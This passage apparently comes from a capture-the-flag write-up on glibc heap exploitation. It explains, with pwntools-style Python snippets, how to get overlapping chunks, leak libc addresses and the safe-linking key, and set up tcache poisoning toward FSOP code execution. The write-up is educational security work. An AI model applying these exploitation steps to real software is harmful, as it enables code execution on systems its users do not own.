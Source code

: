 

If you're confused for example why all the chunks have the same size 0x20 (or what is tcache later in the write-up), I recommend diving into glibc's malloc
internals. [This link is a good start](https://sourceware.org/glibc/wiki/MallocInternals).
In short, the size gets aligned to a multiple of 16 and there's also a trick where the prev_size value of the next chunk
is used as a part of the allocated memory, so no need to include it in the size.

After overwriting the size, we can easily get overlapping chunks resulting in an easy way to leak addresses and
do tcache poisoning.

```python
    # Free the chunk and allocate it again to get overlapping chunks.
    remove_dump(io, c)
    c = create_dump(io, 0x400)
    # Fix the top chunk size that got zeroed-out by the allocation.
    change_bytes(io, c, 16+8, p64(0x0000000000020d11))
```

Since we already have overlapping chunks lets start with getting the leaks. To get them we will malloc a huge chunk
that after a free will land in the unsorted bin, as they contain libc addresses we want to leak.

```python
    leaky_dump = create_dump(io, 0x1000)
    # Create a chunk so after freeing the one above it wont get merged
    # with the top chunk.
    guard_dump = create_dump(io, 32)
    remove_dump(io, leaky_dump)
    hx = hexdump_dump(io, c)
    libc_leak = u64(hx[32:32+8])
    info(f"{hex(libc_leak)=}")
    libc.address = libc_leak - 0x211b20
    info(f"{hex(libc.address)=}")
```

After that we leak some more stuff to [decrypt safe linking](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/decrypt_safe_linking.c)
and prepare tcache linked list for corruption. The size 0xe8 is not arbitrary, as I will aim for [FSOP](https://niftic.ca/posts/fsop/) later to get
arbitrary code execution and this is the size of the FILE struct I want to overwrite.
```python
    # Create small chunks for tcache poisoning.
    d = create_dump(io, 0xf0-8)
    e = create_dump(io, 0xf0-8)
    f = create_dump(io, 0xf0-8)
    g = create_dump(io, 0xf0-8)
    
    remove_dump(io, g)
    hx = hexdump_dump(io, c)
    # Leak xor key to decrypt safe linking.
    xor_key = u64(hx[0x2f0:0x2f0+8])
    info(f"{hex(xor_key)=}")
    # Prepare chunks for tcache poisoning.
    remove_dump(io, f)
    remove_dump(io, e)
    remove_dump(io, d)
```
